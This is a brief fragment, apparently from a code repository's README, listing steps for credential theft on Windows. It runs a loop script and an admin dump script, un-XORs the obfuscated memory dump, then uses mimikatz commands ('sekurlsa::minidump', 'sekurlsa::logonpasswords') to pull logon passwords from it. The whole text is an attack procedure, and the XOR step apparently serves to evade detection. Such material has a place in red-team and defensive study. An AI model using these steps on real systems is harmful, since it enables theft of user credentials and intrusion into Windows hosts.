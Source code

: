 - run loop script
- run dump script (admin)
- run unxor script on xored dump
- use mimikatz:
  - sekurlsa::minidump unxored_file.dmp
  - sekurlsa::logonpasswords
